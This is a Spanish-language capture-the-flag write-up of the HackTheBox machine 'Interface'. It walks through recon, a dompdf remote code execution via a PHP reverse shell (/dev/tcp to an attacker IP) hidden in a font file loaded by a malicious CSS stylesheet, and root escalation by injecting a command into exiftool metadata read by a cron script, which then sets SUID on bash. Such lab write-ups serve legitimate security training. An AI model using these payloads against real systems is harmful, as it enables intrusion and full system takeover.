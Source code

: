 ```yaml
---
layout: single
title: Interface - HackTheBox
excerpt: " A box that sees a lot of fuzzing, plus exploits targeting 'dompdf' with relatively easy privilege escalation. "
date: 2023-02-13
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-interface/interface.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:
  - dompdf
  - NextJS
  - api
  - exiftool
  - metadata
---
```


A box that sees a lot of fuzzing, plus exploits targeting "dompdf" with relatively easy privilege escalation.

# Summary
- IP: 10.129.154.5
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
	-  80 -> nginx 1.14.0

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.129.154.5 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80 -sCV 10.129.154.5 -oN targeted
```


# Análisis de página web:

- Al entrar a la página principal vemos un mensaje pero no nos sirve de nada, analizando el código fuente y haciendo un escaneo típico de directorios tampoco encontramos nada.

- Interceptamos la petición al entrar a la página con Burpsuite y optenemos la siguiente información contemplada dentro de la respuesta del servidor:


```http
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
```


- Podemos apreciar un subdominio deconocido "prd.m.rendering-api.interface.htb"; lo agregamos al "/etc/hosts".

- Hacemos un escaneo de directorios:

```bash
$gobuster dir -u prd.m.rendering-api.interface.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

```
$ffuf -u http://prd.m.rendering-api.interface.htb/api/FUZZ -X POST -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -mc all -fs 50
```

Encontramos "/vendor" y "/api/html2pdf"

```bash
$gobuster dir -u prd.m.rendering-api.interface.htb/vendor -w /usr/share/dirb/wordlists/big.txt -t 100
```

Encontramos "/vendor/dompdf"

- Con esta información podemos deducir que la página implementa "dompf" por detrás, buscamos vulnerabilidades para esto y encontramos lo siguiente:

[Exploiting RCE Vulnerability in Dompdf | Optiv](https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)

- Bingo! un RCE; llevamos a cabo el exploit.


# Exploit dompdf RCE:

- Primero, descargamos cualquier archivo font ".ttf" que encontremos por internet, y lo renombraremos a "exploit_font.php"; a este mismo archivo renombrado le agregamos una linea al final el cual contendrá el comando de la reverse shell:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.129/443 0>&1'");?>
```

- Luego, creamos un archivo "exploit.css" con el siguiente contenido:

```
@font-face {
    font-family:'exploitfont';
    src:url('http://ipatacante/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
}
```

- Después de haber creado estos archivos, nos montamos un servidor http con python en el puerto 80 para que sean accesibles via web.

```bash
$python3 -m http.server 80
```

- Ahora, enviamos una POST request a /api/html2pdf (en este caso lo hice en el repeater de Burpsuite) con la siguiente estructura:

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Content-Type: application/json
Content-Length: 79

{
 "html":"<link rel=stylesheet href='http://10.10.15.129:80/exploit.css'>"
}
```

- Hecho esto, debemos localizar el archivo que por detrás se subió, el cual sería el "exploit_font.php"; de acuerdo al artículo, lo podemos localizar en la ruta "/vendor/dompdf/dompdf/lib/fonts/" con un nombre pre formateado por el servidor.

- Para descifrar el nombre que se le adjudicó al archivo por detrás, primero debemos tener en cuenta que tendrá el siguiente formato:

```
exploitfont_normal_hashmd5.php
```

- Donde el "hashmd5" será el archivo "exploit_font.php" que hemos creado, para esto, convertimos en hash la URL que nos dirige a tal archivo:

```bash
$echo -n "http://yourip/exploit_font.php" | md5sum
```

- Obtenemos el hash, entonces el formato del archivo que se guardó por detrás del servidor quedaría de la siguiente manera:

```
exploitfont_normal_4e5e34308ba36fe6d12beda1473f05e5.php
```

- Nos ponemos en escucha por el puerto 443 en nuestra máquina atacante.

- Por último, enviamos una petición GET a la dirección del archivo, tomando en cuenta el formato que hemos armado:


```
GET /vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_4e5e34308ba36fe6d12beda1473f05e5.php cd HTTP/1.1
Host: prd.m.rendering-api.interface.htb
```

- Con todo esto, habremos ganado acceso al sistema como "www-data".


# ESCALANDO PRIVILEGIOS:


- Transferimos el binario de "pspy64" a la máquina víctima y escaneamos los procesos que se están ejecutando por detrás de la máquina, dándonos como resultado lo siguiente:

```bash
2023/02/14 04:35:05 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2023/02/14 04:36:01 CMD: UID=0     PID=5679   | /bin/bash /usr/local/sbin/cleancache.sh 
2023/02/14 04:36:01 CMD: UID=0     PID=5678   | /bin/sh -c /usr/local/sbin/cleancache.sh
```

- Como podemos ver, el usuario root (UID=0) está ejecutando la script "cleancache.sh" cada cierto tiempo, analizamos dicha script:

```bash
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```

- La script obtiene el valor de "producer" de los metadatos de los archivos alojados en el directorio  "/tmp" y lo compara con "dompdf".

- Dado que podemos controlar los metadatos de los archivos, podemos controlar qué es $meta_producer y podemos usarlo para inyectar comandos.

- Entonces creamos un archivo "pwned.sh" en un directorio en el que tengamos permisos de escritura, en este caso podemos hacerlo en "dev/shm/" y le damos permisos de ejecución:

```bash
$touch /dev/shm/pwned.sh
$nano /dev/shm/pwned.sh
```

```
chmod u+s /bin/bash
```

```bash
$chmod +x /dev/shm/pwned.sh
```

- Ahora creamos un archivo "pwned" en el directorio "/tmp" y modificamos los metadatos con el fin de que ejecute el comando de la script que cabamos de crear:

```bash
$touch /tmp/pwned
$exiftool -Producer='a[$(/dev/shm/pwned.sh>&2)]+42' /tmp/pwned
```

- Ejecutamos la script "cleancache.sh" dado que tenemos permisos de ejecución.

```bash
$./cleancache.sh
```

- Y por último ejecutamos la bash con privilegios y seremos root:

```bash
$bash -p
```
